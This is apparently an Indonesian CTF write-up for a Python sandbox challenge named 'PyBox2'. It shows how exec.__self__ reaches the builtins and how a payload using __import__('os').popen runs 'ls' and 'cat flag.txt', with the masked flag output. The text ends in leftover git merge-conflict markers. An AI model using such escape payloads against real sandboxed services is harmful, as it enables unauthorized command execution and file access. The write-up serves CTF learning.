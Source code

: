 <H1>PyBox2</H1>
<H5>Tools: Terminal, bpython</H5>
Untuk menyelesaikan masalah ini kita harus mempelejari atau mencari tahu method atau attributes dari class compile atau exec. Seperti yang sudah di berikan di hint kita bisa menggunakan 

```python
compile.__self__
```
atau

```python
exec.__self__
```
dengan menggunakan bpython sebuah command lines tools terminal untuk python interactive, saya mencoba untuk mengetahui method dati class `exec`. Kita bisa mencari tahu dengan function `dir()`. seperti ini
```python
>>> dir(exec.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'C
onnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError'
, 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryEr
ror', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'Ove
rflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration
', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeErro
r', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader_
_', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'com
plex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'hel
p', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'pri
nt', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```
dari banyaknya method dari `exec.__self__` saya memilih untuk memakai yang paling sering saya gunakan dalam ctf yaitu `__import__`. dengan begitu payload pertama akan menjadi seperti ini
```python
exec.__self__.__import__("os").popen("ls").read()
```
payload di atas bisa di baca juga seperti ini
```python
import os
#code dibawah akan execute ls dan menjadikan output nya string
os.popen("ls").read
```
output dari code diatas adalah
```bash
Dockerfile
README.md
flag.txt
logo
main.py
makefile
payload
solve.py
```
dengan begitu kita tinggal execute `cat` untuk membaca flag.txt
```python
exec.__self__.__import__("os").popen("cat flag.txt").read()
```
dengan output:
```
TCP1P{******************************_get__import__}
```
note:* hanya untuk menutupi full flag

<<<<<<< HEAD
opini: menurut saya gunanya `__self__` adalah untuk meng-akses class yang ada di dalam scope mirip penggunaan `this` dalam javascript
=======
opini: menurut saya gunanya `__self__` adalah untuk meng-akses class yang ada di dalam scope mirip penggunaan `this` dalam javascript
>>>>>>> a3bd8ef (gk tahu)
